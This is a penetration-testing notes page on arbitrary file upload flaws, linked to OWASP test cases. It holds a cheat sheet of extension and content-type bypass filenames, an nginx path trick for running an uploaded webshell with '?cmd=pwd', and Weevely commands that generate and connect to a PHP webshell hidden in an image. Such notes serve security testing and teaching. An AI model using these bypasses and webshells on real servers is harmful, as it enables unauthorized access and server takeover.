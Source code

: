 ```yaml
---
title: Arbitrary file upload
draft: false
TableOfContents: true
tags:
  - pentesting
  - web
  - pentesting
---
```

# Arbitrary File Upload


??? quote "OWASP"
	[OWASP Web Security Testing Guide 4.2](../OWASP/index.md) > 10. Business logic Testing > 10.8. Test Upload of Unexpected File Types 

	|ID|Link to Hackinglife|Link to OWASP|Description|
	|:---|:---|:---|:---|
	|10.8|[WSTG-BUSL-08](../OWASP/WSTG-BUSL-08.md)|[Test Upload of Unexpected File Types](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/10-Business_Logic_Testing/08-Test_Upload_of_Unexpected_File_Types)|- Review the project documentation for file types that are rejected by the system.  - Verify that the unwelcomed file types are rejected and handled safely. Also, check whether the website only check for "Content-type" or file extension.  - Verify that file batch uploads are secure and do not allow any bypass against the set security measures.|
	|10.9|[WSTG-BUSL-09](../OWASP/WSTG-BUSL-09.md)|[Test Upload of Malicious Files](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/10-Business_Logic_Testing/09-Test_Upload_of_Malicious_Files)|- Identify the file upload functionality.  - Review the project documentation to identify what file types are considered acceptable, and what types would be considered dangerous or malicious.  - If documentation is not available then consider what would be appropriate based on the purpose of the application.  - Determine how the uploaded files are processed.  - Obtain or create a set of malicious files for testing.  - Try to upload the malicious files to the application and determine whether it is accepted and processed.|

An arbitrary file upload vulnerability is a type of security flaw in web applications that allows an attacker to upload and execute malicious files on a web server. This can have serious consequences, including unauthorized access to sensitive data, server compromise, and even complete system control. The vulnerability arises when the application fails to properly validate and secure the uploaded files. This means that the application may not check if the uploaded file is actually of the expected type (e.g., image, PDF), or it may not restrict the file's location or execution on the server.


**Exploitation**: An attacker identifies the file upload functionality in the target  application and attempts to upload a malicious file. This file can be crafted to include malicious code, such as PHP scripts, shell commands, or malware.

**Bypassing Validation**: If the application doesn't properly validate file types or restricts file locations, the attacker can upload a file with a misleading extension (e.g., uploading a PHP file with a .jpg extension).



## Bypass file upload restrictions

Uploaded files represent a significant risk to applications. The first step in many attacks is to get some code to the system to be attacked. Then the attack only needs to find a way to get the code executed. Using a file upload helps the attacker accomplish the first step.


## Cheat sheet for php 

Source: [Repo from imran-parray](https://github.com/imran-parray/Web-Sec-CheatSheet/blob/master/File-Upload-test.txt)
OWASP deep explanation: [link](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)

```
# try to upload a simple php file
upload.php 

# To bypass the blacklist.
upload.php.jpeg 

# To bypass the blacklist.
upload.jpg.php
#  and Then Change the content type of the file to image or jpeg.
upload.php 

# version - 1 2 3 4 5 6 7
upload.php*

# To bypass The BlackList
upload.PHP 
upload.PhP 
upload.pHp 

#  By uploading this [jpg,png] files can be executed as php with malicious code within it.
upload .htaccess

# To test againt the DOS.
pixelFlood.jpg

#  upload gif file with 10^10 Frames
frameflood.gif

# upload UBER.jpg
Malicious zTXT 

# Add backdoor in comments using Exiftool and 
upload.php [getimagesize() 
# rename the jpg file with php so that it will be execute. This Time The Verification of server is only limited to contents of the uploaded file not on the extension

# backdoor in php chunks
phppng.png 

# backdoor in php chunks 
xsspng.png 
```


## Execute a file uploaded as an image in nginx

After bypassing a file upload feature (using .jpg extension but php mimetype), the file is treated by the application as an image.

![file](../img/fileupload_00.png)


How to bypass that situation? This works in some versions of nginx server:

```
# After the name of the file with the jpg extension, add slash and the name of the file with the uploaded and accepted mimetype php. After that you can use the CMD command of the webshell.

https://example.com/uploads/lolo.jpg/lolo.php?cmd=pwd
```

![file](../img/fileupload_01.png)

## Tools

Generate a php webshell with [Weevely](../weevely.md) and saving it an image:

```
weevely generate secretpassword example.png 
```


Upload it to the application.

![weevely](../img/weevely_00.png)


Make the connection with weevely:

```
weevely https://example.com/uploads/example.jpg/example.php secretpassword
```

![weevely](../img/weevely_01.png)


##  Bypass PHP version-based file extension filters when running the file

Sometimes a web server may prevent some php files from running based on their php version. A way of bypassing this situation is indicating in the extension of the file, the version you want to upload. 

```
shell.php7
```

In this case, the uploaded file could be executed in php v7. 




